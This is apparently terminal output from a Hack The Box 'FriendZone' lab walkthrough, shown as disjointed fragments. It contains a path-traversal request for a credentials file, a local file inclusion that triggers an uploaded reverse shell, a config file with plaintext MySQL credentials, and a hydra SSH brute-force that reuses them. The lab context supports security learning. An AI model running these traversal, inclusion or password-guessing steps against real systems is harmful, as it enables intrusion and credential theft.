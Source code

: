 ```
```


Uploaded successfully !
1611761010




index.gif 1611761231



GET /dashboard.php?image_id=../../../../../../../../etc/Development/creds.txt&pagename=timestamp HTTP/1.1



https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rev


Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 16:58:45 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/




www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ



www-data@FriendZone:/var/www$ mysql -ufriend -p

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.



kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt ssh://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 15:59:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://10.10.10.123:22/
[22][ssh] host: 10.10.10.123   login: friend   password: Agpyu12!0.213$
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 15:59:23
